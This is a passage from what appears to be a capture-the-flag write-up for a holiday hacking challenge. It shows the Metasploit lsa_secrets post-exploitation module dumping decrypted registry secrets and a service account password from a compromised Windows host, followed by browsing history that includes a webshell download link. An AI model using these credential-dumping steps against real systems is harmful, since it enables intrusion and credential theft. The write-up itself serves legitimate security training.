       Rank: Normal

Provided by:
  Rob Bathurst <rob.bathurst@foundstone.com>

Compatible session types:
  Meterpreter

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SESSION  1                yes       The session to run this module on.

Description:
  This module will attempt to enumerate the LSA Secrets keys within
  the registry. The registry value used is:
  HKEY_LOCAL_MACHINE\Security\Policy\Secrets\. Thanks goes to Maurizio
  Agazzini and Mubix for decrypt code from cachedump.

msf post(lsa_secrets) > run

[*] Executing module against HHC17-SMB-SERVE
[*] Obtaining boot key...
[*] Obtaining Lsa key...
[*] Vista or above system
[+] Key: DPAPI_SYSTEM
 Decrypted Value: ,2#B@:o~NY*#(1]`Vx

[+] Key: NL$KM
 Decrypted Value: @.tUb#=VQc_Y%&P1`gG;g1p0I)me& }Z/zXP`

[+] Key: _SC_agrabber
 Username: .\alabaster_snowball
 Decrypted Value: .Carried_mass_it_reader1

[*] Writing to loot...
[*] Data saved in: /home/vladg/.msf4/loot/20180109050031_default_10.142.0.8_registry.lsa.sec_967944.txt
[*] Post module execution completed
#+END_SRC

We can verify this with our hash, or via RDP: alabaster's password is
=Carried_mass_it_reader1=, which matches what we got before.

At this point, the system is pretty well compromised. We were unable to crack the sysadmin user's hash, or pivot from this system to other systems using our privileged access.

We did, however, find some neat things in the Firefox browsing history of the sysadmin user:

#+BEGIN_SRC 
'https://www.python.org/downloads/release/python-362/'
'https://www.google.com/search?q=non+sucky+servaice+manager&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'https://nssm.cc/release/nssm-2.24.zip'
'http://localhost/'
'https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx'
'http://localhost/test.aspx'
'https://stackoverflow.com/questions/4388066/the-page-you-are-requesting-cannot-be-served-because-of-the-extension-configura'
'https://www.google.com/search?q=how+to+use+aspnet_regiis&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'https://www.google.com/search?q=aspnet_regiis+%3A+The+term+%27aspnet_regiis%27+is+not+recognized+as+the+name+of+a+cmdlet&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'http://exescan.net/exes/a/aspnet_regiis-exe-file'
'https://www.google.com/search?q=how+to+configure+asp+to+run+on+iis&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'https://docs.microsoft.com/en-us/iis/application-frameworks/scenario-build-an-aspnet-website-on-iis/configuring-step-1-install-iis-and-asp-net-modules'
'https://www.google.com/search?q=enable+asp+on+windows+2016&ie=utf-8&oe=utf-8&client=firefox-b-1-ab'
'https://docs.microsoft.com/en-us/biztalk/core/how-to-enable-asp-net-4-0-for-published-web-services'
'https://az764295.vo.msecnd.net/stable/dcee2202709a4f223185514b9275aa4229841aa7/VSCodeSetup-x64-1.18.0.exe'
'http://127.0.0.1/'
'http://127.0.0.1/evil.aspx'
'http://localhost/cmd.aspx'
'http://localhost/jerry.aspx'
'http://localhost/ok.txt'
#+END_SRC
